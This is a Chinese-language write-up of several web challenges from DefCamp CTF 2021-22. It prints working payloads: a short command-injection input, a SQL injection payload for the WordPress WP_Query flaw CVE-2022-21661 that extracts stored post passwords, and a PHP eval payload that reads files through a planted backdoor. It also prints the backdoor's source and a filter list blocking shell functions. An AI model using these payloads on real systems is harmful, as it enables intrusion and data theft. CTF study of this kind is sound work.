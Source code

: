 ﻿---
title: DefCamp CTF(D-CTF)2021-22 web
categories: 赛题wp
---

# 前言
抽空看了下web，躺了个45，弄的还挺好看 :)

![](https://img-blog.csdnimg.cn/52042f067de34ac2905c3c9ce3661cd2.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

<!--more-->

# para-code

**4长度rce需要有写权限**，但是题目没有写权限，只能爆破一下后面的命令
```php
<?php
require __DIR__ . '/flag.php';
if (!isset($_GET['start'])){
    show_source(__FILE__);
    exit;
} 

$blackList = array(
  'ss','sc','aa','od','pr','pw','pf','ps','pa','pd','pp','po','pc','pz','pq','pt','pu','pv','pw','px','ls','dd','nl','nk','df','wc', 'du'
);

$valid = true;
foreach($blackList as $blackItem)
{
    if(strpos($_GET['start'], $blackItem) !== false)
    {
         $valid = false;
         break;
    }
}

if(!$valid)
{
  show_source(__FILE__);
  exit;
}

// This will return output only for id and ps. 
if (strlen($_GET['start']) < 5){
  echo shell_exec($_GET['start']);
} else {
  echo "Please enter a valid command";
}

if (False) {
  echo $flag;
}
?>
```
最后爆破出为 `?start=m4 *`

linux m4 命令

>m4 将输入拷贝到输出,同时将宏展开. 宏可以是内嵌的也可以是用户定义的. 除了可以展开宏,m4还有一些内建的函数,用来引用文件,执行Unix命令,整数运算,文本操作,循环等. m4既可以作为编译器的前端也可以单独作为一个宏处理器。

# research-it
一个wordpress站点，经过扫描 `/wp-content/plugins/` 存在目录遍历

![](https://img-blog.csdnimg.cn/baffef8cdef64e35bce84bfc66e5fb2f.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

**wp-content** 下面的文件目录

1.	languages(语言包,中文什么的，可以安装其他语言包，也放这里)
2.	plugins(各种插件，比如301插件，回复插件，自动邮件插件什么的)
3.	themes(最新版本的wordpress默认有3个主题都是放这里，自己安装的主题也是放这里的)

wp-content下面一共就这3个目录

![](https://img-blog.csdnimg.cn/94f604748bd647bf8b0f9118e0bdf042.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

**/wp-includes/wlwmanifest.xml** 获得后台地址

![](https://img-blog.csdnimg.cn/f5e65be687b5470eb51f5128c1289a0f.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

尝试了一些基本的wordpress的漏洞均失败，突破点 hello.php存在备份文件能查看源码 `hello.php~`

发现了WP_Query ，前一段时间爆出一个sql注入 `CVE-2022–21661`

分析文章：[某Press核心框架WP_Query SQL注入漏洞分析(CVE-2022–21661)](https://xz.aliyun.com/t/10841)

![](https://img-blog.csdnimg.cn/603d9e20fdb646e5ab291de82058f421.png#pic_center)

发现 **add 的 action**

![](https://img-blog.csdnimg.cn/d6418e81755549c58ab13cad767e6ef2.png#pic_center)

有点不同的是，网上的poc是采用 `json方式注入`，这里改一下就完事了

payload：
```
action=Taxonomy&args[tax_query][0][field]=term_taxonomy_id&args[tax_query][0][terms][0]=1) and extractvalue(1,co
ncat(0x5e,(select substr((select group_concat(post_password) from wp_posts),10,40)),0x5e))#
```

![](https://img-blog.csdnimg.cn/ae8da66d57e44459a312c9f060da8c99.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)



# casual-defence

首页

![](https://img-blog.csdnimg.cn/2c2b7c790b2947039aeb300134b14df7.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)
一开始什么线索都没有，尝试apache的漏洞也没有成功，最后通过`dirsearch` 发现了一个疑点，访问 `index.php时返回还是这个页面`，说明后端为php，然后结合题目，网站被黑，**怀疑存在后门函数**，只不过需要自己 **fuzz参数**，经过手动 fuzz，发现存在cmd参数命令执行，用Wfuzz也能出参数

![](https://img-blog.csdnimg.cn/64ea27083dbf4e51baccf33cf5d16ace.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

Disable_function:

```
eval,passthru,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,shell_exec,get_defined_functions
```
发现执行了 ban了 eval，那么就是用了`assert`，php7环境下，无参读文件，取反也行

payload
```
?cmd=var_dump(file_get_contents(end(current(get_defined_vars()))));&y0ng=index.php
```

源码：
```php
<?php
$note = "most of execution functions where blocked within the php.ini :D";
	
if (!isset($_GET['cmd'])){
	echo 'Hacked by NotRealH4ck3rN4m3! You shall not elevate me!';
} 
	
if(preg_match('/system|exec|passthru|shell|[\"\'\\\$\%\.\[\]\{\}\`\!\*\/]/', $_GET['cmd'])){
	echo "Try Harder!";
} else {
	eval($_GET['cmd']);
}
$flag = "CTF{40c7bf1cd2186ce4f14720c4243f1e276a8abe49004b788921828f13a026c5f1}";
?>
```

然后发现用的是 `eval` ，不是ban了吗，网上查到的原因：

>在php.ini中，有个disable_functions项目，可以用于设置要禁用的php函数。但是却不能禁用eval函数。是因为eval并不是php的函数，而是zend的函数。

要想禁用eval函数需要使用 `Suhosin` php插件，[php 禁用eval( )函数](https://www.cnblogs.com/mr-amazing/p/5501872.html)

# it-support
首页：Laravel v8.83.0 (PHP v7.3.33)

![](https://img-blog.csdnimg.cn/2eda545195df4472abceabc4a7fd96a1.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

提交抓包：

![](https://img-blog.csdnimg.cn/40e7a2a1732246ec99fbf270141a80cc.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

测出xss，但是貌似没什么用

![](https://img-blog.csdnimg.cn/6431b7e5d29b4a53a7f6363499edaeda.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

观察生成的ticket

![](https://img-blog.csdnimg.cn/8d7e2a7cec7c474294fdc43e7fbf1f47.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

这个是ticket的格式是这样的：TK-(year)(month)(day)(minutes)(second)-1xxx

当我刷新页面时只有时间和状态发生了变化，时间有大概两三秒的差别，状态从penting变为closed

![](https://img-blog.csdnimg.cn/e4e1554f694241b09b64743b0bb85523.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_15,color_FFFFFF,t_70,g_se,x_16#pic_center)

然后就是一直爆破 ticket 的秒和后面的1xxx，我没爆出来
